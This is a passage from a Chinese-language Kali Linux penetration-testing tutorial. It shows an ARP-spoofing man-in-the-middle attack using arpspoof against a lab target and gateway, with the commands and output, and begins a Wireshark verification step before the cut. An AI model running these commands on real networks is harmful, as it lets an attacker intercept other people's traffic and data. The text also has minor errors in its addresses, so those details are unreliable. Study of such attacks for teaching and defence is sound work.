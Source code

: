 ### 9.8.1 URL 流量操纵攻击

URL 流量操作非常类似于中间人攻击，通过目标主机将路由流量注入到因特网。该过程将通过 ARP 注入实现攻击。本小节将介绍使用 Arpspoof 工具实现 URL 流量操纵攻击。使用 Arpspoof 工具实现 URL 流量操作攻击。具体操作步骤如下所示：

（1）开启路由转发功能。执行命令如下所示：

```
root@kali:~# echo 1 >> /proc/sys/net/ipv4/ip_forward 
```

执行以上命令后，没有任何信息输出。

（2）启动 Arpspoof 注入攻击目标系统。攻击的方法是攻击者（192.168.6.102）发送 ARP 数据包，以欺骗网关（192.168.6.1）和目标系统（192.168.6.101）。下面首先欺骗目标系统，执行命令如下所示：

```
root@kali:~# arpspoof -i eth0 -t 192.168.6.101 192.168.6.1
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 0:19:21:3f:c3:e5 0806 42: arp reply 192.168.6.1 is-at 50:e5:49:eb:46:8d 
```

输出的信息显示了攻击者向目标主机 192.168.6.102 发送的数据包。其中 50:e5:49:eb:46:8d 表示攻击者的 MAC 地址；19:21:3f:c3:e5 表示 192.168.6.101 的 MAC 地址。当以上过程攻击成功后，目标主机 192.168.6.101 给网关 192.168.6.1 发送数据时，都将发送到攻击者 192.168.6.102 上。

（3）使用 Arpspoof 注入攻击网关。执行命令如下所示：

```
root@kali:~# arpspoof -i eth0 -t 192.168.6.1 192.168.6.101
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d
50:e5:49:eb:46:8d 14:e6:e4:ac:fb:20 0806 42: arp reply 192.168.6.101 is-at 50:e5:49:eb:46:8d 
```

以上输出信息显示了攻击者向网关 192.168.6.1 发送的数据包。当该攻击成功后，网关 192.168.6.1 发给目标系统 192.168.6.101 上的信息发送到攻击者主机 192.168.6.102 上。

（4）以上步骤都执行成功后，攻击者就相当于控制了网关与目标主机传输的数据。攻击者可以通过收到的数据，查看到目标系统上重要的信息。

为了验证以上的信息，下面举一个简单的例子。

【实例 9-7】通过使用 Wireshark 抓包验证 Arpspoof 工具的攻击。具体操作步骤如下所示。

（1）启动 Wireshark 工具。在 Kali Linux 桌面依次选择“应用程序”|Kali Linux|Top 10 Security Tools|wireshark 命令，将显示如图 9.49 所示的界面。
